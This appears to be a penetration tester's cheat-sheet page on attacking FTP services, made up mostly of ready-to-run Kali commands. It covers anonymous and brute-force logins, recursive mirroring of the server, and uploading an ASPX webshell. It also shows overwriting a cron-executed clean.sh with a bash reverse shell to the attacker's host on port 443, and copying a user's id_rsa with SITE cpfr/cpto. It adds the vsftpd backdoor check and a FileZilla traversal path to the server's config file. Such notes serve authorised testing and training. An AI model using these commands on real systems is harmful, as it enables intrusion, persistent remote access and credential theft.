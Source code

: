 #### FTP Enumeration
==CHECK TO SEE IF YOU CAN UPLOAD FILES!==

```bash - kali
ftp $TARGET 21
```

Admin login
```bash - kali
admin
```

Anonymous login
```bash - kali
anonymous
```

```bash - kali
nmap --script ftp-brute -p 21 $TARGET
```

Check for directory traversal:
```bash - kali
ls ../
```

#### Exit Extended Passive Mode
![[Pasted image 20220401094126.png]]

```bash - kali
pass
```

```bash - kali
ls
```

Then switch to binary mode to upload files:
```bash - kali
bin
```

#### Downloading recursively 
```bash - kali
wget --mirror 'ftp://anonymous:anonymous@$TARGET'
```

```bash - kali
wget -r ftp://anonymous@$TARGET:21
```

```bash - kali
wget -m ftp://anonymous:anonymous@$TARGET
```

```bash - kali
wget -m --no-passive ftp://anonymous:anonymous@$TARGET
```

#### Upload reverse shell
```bash - kali
binary
```

```bash - kali
put cmdasp.aspx
```

Then visit webshell in web browser:
```bash - kali
firefox http://$TARGET/cmdasp.aspx
```

#### Display file without downloading
```bash - kali
get <FILENAME> -
```

#### Existing scripts
`scripts` folder found on FTP, file called `clean.sh` that is part of cron job.  Made a reverse shell with same name, uploaded and overwrote.

clean.sh
```bash - kali
echo '#!/bin/bash \nbash -i >& /dev/tcp/$KALI/443 0>&1' > clean.sh
```

```bash - kali
ftp $TARGET
```

```bash - kali
cd scripts
```

```bash - kali
put clean.sh
```

Set up listener and wait.

[[rlwrap]]

#### Nmap vsftpd script

```bash - kali
nmap --script ftp-vsftpd-backdoor -p 21 $TARGET
```

#### copy id_rsa

```bash - kali
nc $TARGET 21
```

```bash - kali
cpfr /home/user/.ssh/id_rsa
```

```bash - kali
cpto /home/kali/id_rsa
```

[[Port 22 - SSH  ~#id_rsa]]

#### Home FTP Server
https://www.exploit-db.com/exploits/34050

#### FileZilla Directory Transversal
```
.....=C:/Program+Files/FileZilla+Server/FileZilla+Server.xml
```

To crack passwords, try:
[[TechLexicon/Penetration Testing/Reference/7._Tools/Hashcat#FileZilla 0 9 55]]

#### vsftpd
Config file is most likely located at `/etc/vsftpd.conf`. If you can read this file, look for `anon_root=/srv` entry to find root directory of FTP.  `/srv` in this example.
